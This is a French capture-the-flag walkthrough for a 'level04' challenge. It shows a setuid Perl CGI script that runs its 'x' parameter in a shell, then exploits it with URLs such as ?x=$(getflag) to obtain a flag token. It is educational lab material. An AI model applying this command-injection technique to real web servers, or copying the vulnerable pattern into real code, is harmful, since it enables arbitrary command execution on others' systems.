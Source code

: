 ## Démarche

- Dans le home, se situe un script perl

  `ls -la`
  > -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
  
  `cat level04.pl`

  ```
  #!/usr/bin/perl
  #localhost:4747
  use CGI qw{param}; //import du module CGI param
  print "Content-type: text/html\n\n";
  sub x { //sous programme
    $y = $_[0];  //recupération du premier argument x
    print `echo $y 2>&1`;
  }
  x(param("x"));
  ```

- Le mot clef `sub` désigne une sous-fonction en perl.
- Comprendre la sous-fonction *x* :
  ```
  #!/usr/bin/perl

  sub x { 
    $y = $_[0];
    print `echo $y 2>&1`;
  }
  x(`pwd`);
  ```
  *x exécute la commande shell passée en paramètre*


- Se connecter à l'interface via un navigateur :
  > localhost:4747 > http://10.11.200.185:4747/

- Essayer de passer des commandes shell en paramètre :

  http://10.11.200.185:4747/?x=$(ls)
  >level04.pl 

  http://10.11.200.185:4747/?x=$(passwd)
  > Changing password for flag04. 

  http://10.11.200.185:4747/?x=$(getflag)
  > Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap 



## Ressources
- [Chapter 1 of CGI Programming 101](http://www.cgi101.com/book/ch1/text.html)